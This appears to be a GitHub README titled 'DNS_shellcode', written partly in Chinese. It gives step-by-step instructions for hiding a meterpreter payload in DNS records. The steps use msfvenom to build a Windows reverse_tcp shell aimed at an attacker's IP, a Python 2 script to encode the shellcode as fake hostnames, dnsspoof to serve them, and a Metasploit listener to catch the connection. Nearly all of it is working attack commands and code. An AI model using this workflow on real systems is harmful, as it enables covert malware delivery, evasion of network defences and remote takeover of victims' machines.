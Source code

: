 # DNS_shellcode
DNS内网分离传输脚本
step.1
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.133 lport=5555 -f c > /root/safe/payload.txt

step.2
将shellcode制作成  IP+地址 的格式
Ipaddress "{payload}.domain.com"
1.1.1.0 "0xfc0x480x830xe40xf00xe8.1.com"
1.1.1.1 "0xbc0xc80x130xff0x100x08.1.com"
python格式化
#! /usr/bin/env python2.7
# -*- coding:UTF-8 -*-
a = ''
f = open("payload.txt", "rb")
line = f.readlines()[0:]
f.close()
for lines in range(len(line)):
    ipls = '1.1.1.%s' % lines
    shellcode = line[lines].replace(";","").strip().rstrip('"')+".1.com"+'"'
    text = ipls + " " + '"'+ "0x"+shellcode.lstrip('"')
    a += text.replace("\\","0")+"\n"
fn = open("dns.txt", "wb")
fn.write(a)

step.3
DNS_Server
dnsspoof -i eth0 -f dns.txt
listening msf

setp.4
Execute this python_scripts and input Your Bad_DNS_Server_IP
